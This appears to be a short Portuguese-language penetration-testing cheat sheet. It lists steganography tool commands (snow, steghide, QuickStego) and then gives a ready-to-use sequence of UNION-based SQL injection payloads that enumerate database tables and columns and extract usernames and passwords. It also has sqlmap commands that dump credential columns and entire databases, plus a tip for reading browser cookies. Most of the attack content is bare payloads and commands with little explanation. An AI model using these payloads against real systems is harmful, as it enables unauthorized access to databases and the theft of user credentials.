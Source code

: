 Openstego - Estenografia de imagem
snow.exe -C -p "senha" mensagemsecreta.txt
-C  compressing / uncompressing
-p  password
Open Stego
GUI tool

QuickStego
Launch QuickStego
Open Image, and select target .jpg file
Open Text, and select a txt file
Hide text, save image file
Re-launch, Open Image
Select stego file
Hidden text shows up

Steghide
apt-get install steghide
steghide embed -ef mensagemoculta.txt -cf imagem.jpeg -sf imagem2.jpeg
steghide extract -sf imagem2.jpeg -xf mensagemdescoberta.txt

##SQL Injection
'
example' or 1=1 #
example' or 1=1 order by 5;
example' or 1=1 union select 1,2,3,4,5 #
example' or 1=1 union select 1,database(),3,4,5 #
example' or 1=1 union select 1,version(),3,4,5 #
example' or 1=1 union select 1,user(),3,4,5 #
example' or 1=1 union select 1,table_name,3,4,5 from information_schema.tables where table_schema='banco' #
example' or 1=1 union select 1,table_name,3,4,5 from information_schema.tables where table_schema=database() #
example' or 1=1 union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema=database() #
example' or 1=1 union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_schema=database() #
example' or 1=1 union select 1,username,3,4,5 from 'tabela' #
example' or 1=1 union select 1,username,3,password,5 from 'tabela'
Agora abra o burp e verifique os parâmetros de entrada e intercepte, em seguida, digite alguns como “1 OU QUALQUER TEXTO”
você obtém algum valor no burp, copie e crie o arquivo txt. (1 OR 1=1 #)

#SQLMap
sqlmap -r example.txt -p search --batch --dbs
sqlmap -r example.txt -p search --batch -D 'banco' --tables
sqlmap -r example.txt -p search --batch -D 'banco' -T 'tabela' --columns
sqlmap -r example.txt -p search --batch -D 'banco' -T 'tabela' -C username,password --dump
sqlmap -r example.txt -p search --batch -D 'banco' -T 'tabela' --dump
sqlmap -r example.txt -D 'banco' -T 'tabela' --dump-all

##Navegador
Com o botão direito e inspecione e digite no console “document.cookie” você obterá um valor.
--cookie="campo=valor=;"

